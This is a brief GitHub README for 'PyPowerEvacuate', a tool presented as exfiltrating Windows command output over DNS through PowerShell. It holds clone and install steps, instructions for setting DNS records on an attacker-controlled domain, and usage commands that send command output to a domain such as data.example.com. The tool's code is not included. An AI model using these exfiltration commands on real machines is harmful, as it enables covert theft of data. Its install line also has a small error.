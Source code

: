 # PyPowerEvacuate

PyPowerEvacuate is a tool that allows you to exfiltrate command output over DNS on Windows machines by PowerShell.

![](https://raw.githubusercontent.com/0xAbdullah/PyPowerEvacuate/main/Screenshot.gif)

# Installation
```
git clone https://github.com/0xAbdullah/PyPowerEvacuate.git
cd PyPowerEvacuate
pip3 install requirements.txt
```

# Requirements

If you want to use your domain.
```
Set A record to your public IP. -Pointe to your IP/Server-
Set NS record to any subdomain. -Example: data.example.com-
```

# Usage
```
python3 PyPowerEvacuate.py -c COMMAND
python3 PyPowerEvacuate.py -c COMMAND -d data.example.com
```
